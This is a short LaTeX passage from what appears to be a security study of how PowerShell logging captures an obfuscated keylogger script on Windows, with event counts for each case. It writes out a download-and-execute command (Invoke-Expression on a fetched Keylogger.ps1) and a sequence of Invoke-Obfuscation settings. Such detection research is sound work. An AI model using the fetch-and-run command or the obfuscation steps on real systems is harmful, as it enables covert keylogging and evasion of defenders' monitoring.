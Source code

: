 \documentclass{article}%
\begin{document}
\paragraph{Usage}\hfill\newline
This script is run on Windows $8.1$ and Windows Server $2019$ since Windows Server $2016$ and Windows $10$ have the same logging capabilities as Windows Server $2019$. Since the focus is on how powershell logging will interact with the script, the attack models are ignored. Instead the script is executed and downloaded using the unobfuscated powershell command:
\begin{verbatim}
Invoke-Expression (New-Object Net.WebClient)
.DownloadString("http://192.168.2.36:8000/Keylogger.ps1");
\end{verbatim}
The script is manually obfuscated with Invoke-Obfuscation using the following obfuscation commands in the corresponding order:
\begin{enumerate}
	\item AST ALL
	\item Encoding 2 (HEX)
	\item String 1
	\item Encoding 7 (Special characters)
	\item Encoding 4 (Binary)
\end{enumerate}
The resulting script has a length of $881651$ characters.
\paragraph{Windows 10/Server 2016/ Server 2019}
In order to execute the script AV was disabled. After executing the script (for about 15 secconds) the following has been noted:
\begin{enumerate}
	\item Windows Powershell logfile (includes module logging) generated $9296$ events. The filesize is $15$ mb.
	\item Powershell Operational logfile (includes scriptblock logging) generated $8291$ events. The file size is $16.50$ mb.
	\item No warning-level events were logged.
	\item Highest level event is verbose.
	\item De-obfuscated code was still entangled with obfuscated code.
\end{enumerate}
The following has been noted after executing the unobfuscated \hyperlink{script2}{script}:
\begin{enumerate}
	\item Windows Powershell logfile (includes module logging) generated $550$ events. The filesize is $1$ mb.
	\item Powershell Operational logfile (includes scriptblock logging) generated $556$ events. The file size is $1,07$ mb.
	\item One warning-level event were logged.
	\item Highest level event is warning.
	\item De-obfuscated code was clearly visible entangled with obfuscated code.
\end{enumerate}
\end{document}
